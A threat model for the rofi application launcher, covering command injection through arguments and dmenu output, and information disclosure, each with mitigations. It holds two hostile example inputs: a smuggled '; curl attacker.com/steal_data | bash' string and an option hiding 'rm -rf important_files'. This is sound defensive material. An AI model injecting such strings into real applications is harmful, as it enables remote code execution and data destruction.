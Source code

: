 # Threat Model Analysis for davatorium/rofi

## Threat: [Command Injection via Rofi Arguments](./threats/command_injection_via_rofi_arguments.md)

**Description:** An attacker could manipulate user input or application logic to inject malicious commands into the arguments passed directly to the `rofi` executable. This allows for the execution of arbitrary shell commands when `rofi` is invoked by the application. For example, injecting `"; curl attacker.com/steal_data | bash"` into a dynamically constructed command.

**Impact:**  Arbitrary command execution on the server, potentially leading to full system compromise, data breaches, data exfiltration, or denial of service.

**Affected Component:** `rofi` command-line argument parsing and execution.

**Risk Severity:** Critical

**Mitigation Strategies:**
* Implement strict input validation and sanitization for all data used to construct `rofi` command-line arguments.
* Utilize allow-lists to restrict acceptable input values.
* Escape all special characters that could be interpreted by the shell.
* Avoid directly embedding user-provided input into `rofi` command strings.
* If possible, predefine a limited set of safe actions and map user input to these predefined actions.
* Run the application and the `rofi` process with the least necessary privileges.

## Threat: [Command Injection via Rofi Input (Dmenu Mode)](./threats/command_injection_via_rofi_input_(dmenu_mode).md)

**Description:** When using `rofi` in `-dmenu` mode, the application presents a list of options. An attacker could manipulate the *content* of the options provided to `rofi` such that selecting a seemingly benign option actually results in the execution of a malicious command when the application processes the selected output. For example, an option might be crafted as `Secure Action` but the underlying value is `secure_action ; rm -rf important_files`.

**Impact:** Arbitrary command execution on the server, similar to command injection via arguments, potentially leading to system compromise and data loss.

**Affected Component:** `rofi`'s `-dmenu` functionality and the application's logic for processing the selected output from `rofi`.

**Risk Severity:** Critical

**Mitigation Strategies:**
* Rigorously validate the output received from `rofi` before performing any actions based on it.
* Ensure the output strictly conforms to the expected format and content.
* Never directly execute the raw output of `rofi` as a shell command.
* Use the output as a secure identifier to look up predefined, safe actions within the application.
* Sanitize the input used to generate the `rofi` list to prevent the inclusion of potentially harmful commands.

## Threat: [Information Disclosure via Rofi Display](./threats/information_disclosure_via_rofi_display.md)

**Description:** The application might unintentionally display sensitive information directly within the `rofi` user interface. This could include API keys, passwords, internal system details, or other confidential data presented in the `-dmenu` list, prompts, or other visible elements of `rofi`. An attacker with access to the server's display or the `rofi` process's output could view this information.

**Impact:** Exposure of sensitive data, potentially leading to unauthorized access, further attacks, or privacy violations.

**Affected Component:** `rofi`'s display rendering functionality.

**Risk Severity:** High

**Mitigation Strategies:**
* Strictly avoid displaying sensitive information directly within the `rofi` interface.
* If sensitive information must be presented, explore alternative methods such as masking, obfuscation, or displaying only non-sensitive representations.
* Ensure that the `rofi` process is running in a secure context and its output is not accessible to unauthorized users or processes.
* Be aware of the potential for screen capture or physical observation of the `rofi` display in environments where this is a concern.

